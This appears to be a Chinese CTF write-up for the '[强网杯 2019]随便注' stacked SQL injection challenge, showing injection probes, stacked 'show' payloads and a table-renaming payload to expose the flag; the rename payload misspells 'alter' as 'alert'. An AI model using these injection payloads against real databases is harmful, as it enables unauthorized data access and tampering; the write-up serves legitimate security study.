 注释里提示flag.php 常规的思路就是有一个变量的数值应该为flag.php 这里查看一下是 file缺少变量值然后搞一下

# [强网杯 2019]随便注

sql堆叠注入题目

首先按流程来， 输入1‘or 1=1 #正常输入 1’or 1=2 #报错 存在注入

然后爆字段 order by 3 报错 说明两个字段

然后 尝试联合查询 弹出了正则匹配过滤

![](img/b8fa56ac475e95affb30eb5157da7d2e.png)

select被过滤了

于是采用堆叠注入和 show 的方法 爆出库表

payload：

```
1';show databases; #
1';show tables from ctftraing; #
1';show columns from`1919810931114514`# 
```

然后发现 该表中有 flag字段

然鹅我们用show对字段是毫无办法的

呜呜呜

看dalao博客有了以下两种方式的payload

#### 1改名大法

1，通过 rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。

```
1'; rename table words to word1; rename table  `1919810931114514` to words; alert table words 
add id int unsigned not Null auto_increment primary key ; alert table words change flag data 
varchar(100); 
```
